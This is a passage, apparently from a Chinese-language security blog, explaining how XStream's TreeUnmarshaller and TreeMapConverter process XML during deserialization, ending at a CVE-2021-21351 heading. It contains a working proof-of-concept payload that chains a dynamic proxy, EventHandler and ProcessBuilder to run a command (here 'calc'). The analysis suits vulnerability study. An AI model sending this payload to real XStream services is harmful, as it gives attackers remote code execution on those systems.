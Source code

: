到这里，整个过程就结束了，**总结如下**：

1.  从 com.thoughtworks.xstream.core.TreeUnmarshaller 的 start 函数开始，执行 HierarchicalStreams.readClassType，通过标签名从 Mapper 中获取对应的 class 对象
2.  获得 class 对象后返回至 start 函数，来到 TreeUnmarshaller 的 convertAnother 函数，该方法将上面返回的类转换成 Java 对象
    *   通过 mapper.defaultImplementationOf 方法查找 class 的实现类
    *   通过 converterLookup.lookupConverterForType 根据对应的类寻找正确的转换器 Converter
    *   调用 AbstractReferenceUnmarshaller 的 convert 方法获得对应的对象
    *   根据获取到的 Converter，调用 unmarshal 方法，读取其子节点，并转化成对应的变量，直到所有节点解析完成

另一个 POC：

```plain
<tree-map>
    <entry>
        <dynamic-proxy>
            <interface>java.lang.Comparable</interface>
            <handler class="java.beans.EventHandler">
                <target class="java.lang.ProcessBuilder">
                    <command>
                        <string>cmd</string>
                        <string>/C</string>
                        <string>calc</string>
                    </command>
                </target>
                <action>start</action>
            </handler>
        </dynamic-proxy>
        <string>good</string>
    </entry>
</tree-map>
```

这里通过 this.converterLookup.lookupConverterForType 函数得到的 converter 是 TreeMapConverter  
而 TreeMapConverter 的 unmarshal 函数如下，相对来讲对比于 TreeSetConverter 转换器的 unmarshal 函数，少了很多判断条件，即限制

```plain
public Object unmarshal(HierarchicalStreamReader reader, UnmarshallingContext context) {
    TreeMap result = comparatorField != null ? new TreeMap() : null;
    // 判断是否存在 comparator
    Comparator comparator = this.unmarshalComparator(reader, context, result);
    if (result == null) {
        result = comparator == null ? new TreeMap() : new TreeMap(comparator);
    }

    this.populateTreeMap(reader, context, result, comparator);
    return result;
}
```

其他过程与上面同理

## 6\. CVE-2021-21351
